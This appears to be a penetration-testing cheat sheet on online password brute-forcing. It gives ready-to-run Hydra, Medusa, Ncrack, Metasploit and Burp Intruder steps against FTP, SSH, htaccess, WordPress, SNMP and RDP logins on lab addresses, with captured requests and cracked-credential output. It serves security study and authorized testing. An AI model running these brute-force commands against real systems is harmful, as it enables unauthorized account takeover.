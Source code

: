 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
# Test a users list to find a user
msf > use auxiliary/scanner/ssh/ssh_enumusers

# Hydra
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4

# Medusa 
# -e ns for additional password checks ([n] No Password, [s] Password = Username)
# -f Stop scanning host after first valid username/password found
# -M to specify the module to execute ie SSH
medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

#### Wordpress with hydra

Using BurpSuite, intercept a login attempt:

```text
POST /wp-login.php HTTP/1.1
Host: 192.168.2.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.4/wp-login.php
Cookie: s_cc=true; s_fid=7F27FDE8AFB035AA-13A01347AD602162; s_nr=1550824589386; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.4%2Fwp-admin%2F&testcookie=1
```

We can bruteforce it using hydra:

```text
$ hydra -vV -L wordslist.txt -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

* **-vV** : Verbose
* **-L wordslist.txt** : Try all the usernames from the file wordslist.txt
* **-p wedontcare** : Use an unique password, it doesn’t matter \(we’re only interested in the username for now\)
* **192.168.2.4** : The IP of the machine we’re attacking
* **http-post-form** : What we’re trying to brute force, here a HTTP POST form
* **‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’**
  * **/wp-login.php** : The path to where the form is located
  * **log=^USER^&pwd=^PASS^&wp-submit=Log+In** : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
  * **F=Invalid username** : Consider an attempt as a failure \(F\) if the response contains the text _Invalid username_

After a few minutes, we get:

```text
[80][http-post-form] host: 192.168.124.139   login: elliot   password: wedontcare
```

Now we know there is a WordPress user named **elliot**. Let’s try to bruteforce his password using the same technique and word list:

```text
$ hydra -vV -l elliot -P wordslist.txt 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[...]
[80][http-post-form] host: 192.168.2.4 login: elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.101
```

